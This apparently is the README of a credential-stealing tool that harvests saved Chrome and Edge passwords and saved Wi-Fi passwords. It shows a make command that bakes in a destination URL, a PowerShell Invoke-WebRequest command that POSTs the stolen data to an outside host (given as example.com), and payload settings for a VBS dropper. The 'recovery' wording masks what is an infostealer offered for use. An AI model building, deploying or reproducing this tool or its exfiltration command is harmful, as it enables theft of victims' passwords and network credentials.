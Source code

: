 # Objective

Allows you to recover passwords stored in Chrome and Edge browsers. It also allows you to recover saved wifi passwords.

# Build

The script to use must be generated with the make command, specifying the URL which will be used to recover the passwords:

    make URL=http://example.com

# Data recovery

The data will be sent to the URL specified during make with the following powershell command:

    Invoke-WebRequest -Uri http://example.com -Method POST -InFile /tmp/data

# Download payload settings

* __URL__ : Direct download URL to the ``out.vbs`` script.
* __EXE_FILENAME__ : tmp.vbs
* __STARTUP__ : Not set.
